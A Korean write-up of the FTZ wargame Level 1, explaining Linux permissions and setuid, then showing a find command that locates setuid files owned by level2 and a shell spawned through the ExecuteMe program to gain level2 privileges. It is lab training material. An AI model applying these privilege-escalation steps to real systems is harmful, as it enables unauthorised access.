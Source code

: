 # FTZ Level 1 풀이

## <u>1. FTZ  Local 서버 기동 및 IP주소 확인</u>

![image-20210427193652995](C:%5CUsers%5CJina%5CDesktop%5CFTZ%5Cimage-20210427193652995.png)

IP: 192.168.219.103

## <u>2. Xshell로 연결 및 Level 1 로그인</u>  

1. 등록 정보 및 연결 (ID: level1/ PW: level1)![image-20210427194712966](C:%5CUsers%5CJina%5CDesktop%5CFTZ%5Cimage-20210427194712966.png)

![image-20210427194841582](image-20210427194841582.png)

![image-20210427195004155](image-20210427195004155.png)

## <u>3. 풀이</u>

1. **ls 명령으로 디렉토리 탐색**

   ```
   [level1@ftz level1]$ ls
   hint  public_html  tmp
   ```
   
   
   
2. **hint 파일 내용 확인**

   ```
   [level1@ftz level1]$ cat hint
   
   
   level2 권한에 setuid가 걸린 파일을 찾는다.
   ```

   > ## setuid 관련 개념 정리
   >
   > **리눅스의 권한 체계(Permission)**
   >
   > - 권한 종류: 읽기(read), 쓰기(write), 실행하기(execute)
   >
   > - 권한 보기 Command: **ls -l** (또는 줄여서 ll)
   >
   > - 권한 구성
   >
   >   예) drwxrwxrwx 1 user1 user2    4096 Jul 11 11:11 file1.txt
   >
   >   1번째 문자: 파일(-), 디렉토리(d), 링크(l)
   >
   >   2~4번째 문자: 파일 소유주의 읽기/쓰기/실행하기 권한
   >
   >   5~7번째 문자: 파일 소유주 그룹의 읽기/쓰기/실행하기 권한
   >
   >   8~10번째 문자: 그 외 유저들의 읽기/쓰기/실행하기 권한
   >
   >   "1": 링크 수
   >
   >   "user1": 파일 소유주
   >
   >   "user2": 파일 소유 그룹
   >
   >   "4096 ": 파일 크기
   >
   >   " Jul 11 11:11": 파일 최종 수정 일시
   >
   >   "file1.txt": 파일명
   >
   > - 권한 변경 Command: **chmod**
   >
   >   예) chmod [변경하고자 하는 권한 값 (예. 777)] [파일 혹은 디렉토리]
   >
   > - 권한 고유 값: r(4), w(2), x(1)
   >
   > ---
   >
   > - setuid: 파일 실행 시 파일 소유자 권한으로 실행하는 것
   >
   > - 실행 권한이 s로 되어있다. (S = 실행권한 없는 setuid, s = 실행권한 포함 setuid)
   >
   > - setuid 만드는 방법: 권한설정을 4000번대로 준다. 예) chmod 4777 [파일]
   > - **setuid 파일 찾는 방법**: find [찾기 경로] -perm -4000 또는 find [찾기 경로] -perm +4000 
   >   - -: 해당하는 퍼미션 비트 포함
   >   - +: 해당하는 퍼미션 중 어느 하나라도 포함하는 경우

   

3. **현재 디렉토리에서 find Command로 찾아보기**

   - 조건1: setuid 설정 파일

   - 조건2: 소유자가 level2

     ```
     [level1@ftz level1]$  find / -perm -4000 -user level2 
     find: /lost+found: Permission denied
     find: /boot/lost+found: Permission denied
     find: /proc/1/fd: Permission denied
     find: /proc/2/fd: Permission denied
     find: /proc/3/fd: Permission denied
     ... 생략
     ```

     -> 권한 없는 파일에 대한 error 메시지 너무 많아서 보기 어려움,,
     해결: https://docs.microsoft.com/ko-kr/troubleshoot/cpp/redirecting-error-command-prompt
     (명령 프롬프트에서 오류 메시지 리디렉션: STDERR/STDOUT)

     ```
     [level1@ftz level1]$  find / -perm -4000 -user level2 2> /dev/null
     /bin/ExecuteMe
     ```

     

4. **ExecuteMe 파일 확인**

   ```
   [level1@ftz level1]$ cd /bin
   [level1@ftz bin]$ ls -al | grep ExecuteMe
   -rwsr-x---    1 level2   level1      12868 Sep 10  2011 ExecuteMe
   ```

   - 조건1 만족: rws ->실행권한이 s로 설정 = setuid 걸려있다.

   - 조건2 만족: level2 : 파일 소유주가 level2이다.

     

5. **ExecuteMe 파일 실행**

   		[level1@ftz bin]$ ./ExecuteMe
   		
   		레벨2의 권한으로 당신이 원하는 명령어를
   		한가지 실행시켜 드리겠습니다.
   		(단, my-pass 와 chmod는 제외)
   	
   		어떤 명령을 실행시키겠습니까?


   		[level2@ftz level2]$ 

   

6. **Shell 열어서 my-pass 명령어 시도**

   ```
   [level1@ftz bin]$ ./ExecuteMe
   
   ​	레벨2의 권한으로 당신이 원하는 명령어를
   ​	한가지 실행시켜 드리겠습니다.
   ​	(단, my-pass 와 chmod는 제외)
   
   ​	어떤 명령을 실행시키겠습니까?
   
   ​	[level2@ftz level2]$ bash
   
   
   [level2@ftz level2]$ my-pass
   ```

   ![image-20210427232055814](image-20210427232055814.png)



**Level 2 Password 확인 완료.**



